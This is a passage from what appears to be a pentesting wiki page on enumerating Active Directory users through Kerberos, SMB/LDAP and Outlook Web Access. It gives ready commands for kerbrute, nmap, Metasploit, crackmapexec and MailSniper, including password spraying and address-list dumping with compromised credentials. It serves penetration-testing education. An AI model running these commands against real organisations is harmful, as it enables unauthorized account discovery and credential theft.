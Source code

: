 ### User enumeration

* **Anonymous SMB/LDAP enum:** Check the [**pentesting SMB**](../../network-services-pentesting/pentesting-smb/) and [**pentesting LDAP**](../../network-services-pentesting/pentesting-ldap.md) pages.
* **Kerbrute enum**: When an **invalid username is requested** the server will respond using the **Kerberos error** code _KRB5KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN_, allowing us to determine that the username was invalid. **Valid usernames** will illicit either the **TGT in a AS-REP** response or the error _KRB5KDC\_ERR\_PREAUTH\_REQUIRED_, indicating that the user is required to perform pre-authentication.

```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
```

* **OWA (Outlook Web Access) Server**

If you found one of these servers in the network you can also perform **user enumeration against it**. For example, you could use the tool [**MailSniper**](https://github.com/dafthack/MailSniper):

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```

{% hint style="warning" %}
You can find lists of usernames in [**this github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) \*\*\*\* and this one ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

However, you should have the **name of the people working on the company** from the recon step you should have performed before this. With the name and surname you could used the script [**namemash.py**](https://gist.github.com/superkojiman/11076951) to generate potential valid usernames.
{% endhint %}

### Knowing one or several usernames
